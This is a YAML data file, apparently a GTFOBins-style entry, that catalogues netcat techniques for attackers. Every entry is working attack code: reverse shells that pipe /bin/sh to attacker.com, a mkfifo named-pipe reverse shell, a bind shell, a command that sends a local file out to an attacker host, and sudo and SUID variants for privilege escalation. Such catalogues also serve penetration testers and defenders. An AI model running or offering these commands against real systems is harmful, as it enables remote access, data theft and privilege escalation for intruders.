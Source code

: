 ```yaml
---
functions:
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nc -e /bin/sh $RHOST $RPORT
    - description: Upgrade netcat shell
      code: |
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YourIP> 4444 >/tmp/f
        python -c 'import pty;pty.spawn("/bin/bash")'
        # Background the session with CTRL + Z
        stty raw -echo
        fg
        export TERM=screen
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This only works with netcat traditional.
      code: |
        LPORT=12345
        nc -l -p $LPORT -e /bin/sh
    - description: Upgrade netcat shell
      code: |
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YourIP> 4444 >/tmp/f
        python -c 'import pty;pty.spawn("/bin/bash")'
        # Background the session with CTRL + Z
        stty raw -echo
        fg
        export TERM=screen
  file-upload:
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  file-download:
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        LPORT=12345
        LFILE=file_to_save
        nc -l -p $LPORT > "$LFILE"
  sudo:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo nc -e /bin/sh $RHOST $RPORT
  limited-suid:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./nc -e /bin/sh $RHOST $RPORT
---
```

